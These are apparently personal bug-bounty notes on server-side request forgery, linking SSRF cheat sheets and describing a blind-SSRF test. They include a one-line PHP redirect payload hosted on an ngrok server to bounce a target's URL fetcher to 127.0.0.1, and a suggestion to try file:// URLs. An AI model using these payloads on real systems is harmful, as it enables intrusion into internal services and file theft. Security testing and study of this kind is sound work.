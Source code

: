 https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/ssrf.md

https://github.com/cujanovic/SSRF-Testing

https://github.com/jdonsec/AllThingsSSRF

- [ ] Try to fetch image with `file://protocol` if you can then hurray

- [ ] If no payloads working then send
	- Host a ngrok server with script 
		`<?php header("Location: <http://127.0.0.1:443>");?>`
	- Send this `uniqID.ngrok.io/script.php` in `?url=` parameter.
	- Now wait for the resonse :P.
		- Ref: https://yasshk.medium.com/blind-ssrf-in-url-validator-93cbe7521c68

![](https://pbs.twimg.com/media/E6dXN25WEAA--U8?format=jpg&name=large)